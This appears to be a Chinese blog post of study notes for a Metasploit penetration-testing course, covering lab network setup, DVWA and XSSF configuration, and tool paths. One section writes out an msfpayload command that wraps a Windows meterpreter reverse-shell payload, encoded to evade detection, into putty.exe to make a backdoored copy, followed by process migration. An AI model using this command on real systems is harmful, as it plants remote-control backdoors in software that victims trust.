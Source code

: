 ```yaml
---
layout: post
title: "Metasploit渗透测试魔鬼训练营"
description: ""
category: [Metasploit]
tags: [Metasploit, Penetration]
---
```

{% include JB/setup %}



###记录一下学习过程中遇到的问题

* OSX 10.10下配置VMware Fusion虚拟网络环境

	打开`/Library/Preferences/VMware Fusion/networking`

修改对应行

	answer VNET_8_HOSTONLY_SUBNET 10.10.10.0



* 3.5 DB

* 4.2.5 wXf

* 4.3.1 DVWA如何打开
	
	在带有浏览器的测试机打开 http://www.dvssc.com/dvwa (http://10.10.10.129/dvma)
	
	并以`admin` `admin`登陆

* 4.3.2 XSSF配置

	下载[XSSF](https://code.google.com/p/xssf/downloads/list)
	
	合并/XSSF中的data、lib、modules、plugins至

	BT5: `/opt/metasploit/apps/pro/msf3/`

	Kali2: `/usr/share/metasploit-framework/`
	
* 7.3.3 木马制作

该命令在BT5会报错

	msfpayload windows/meterpreter/reverse_tcp LHOST=10.10.10.128 LPORT=80 R | msfencode -t exe -x ~/Desktop/putty.exe -k -o ~/Desktop/putty_backdoor.exe -e x86/shikata_ga_nai -c 5

`[-] x86/shikata_ga_nai failed: Not enough room for new section header`

`[-] No encoders succeeded.`

Google无果，但是换kali就好了。。。

`run migrate -n explorer.exe`

upx加壳失败。。。

* 7.4.1 SET
	
	BT5: `/pentest/exploits/set/set`
	
	Kali2: `/usr/share/set/setoolkit`	

* 7.6.2 官方网盘里并没有`hak5_usb_hacksaw_ver0.2poc.rar`的下载，Google了半天也找不到。。。

* 




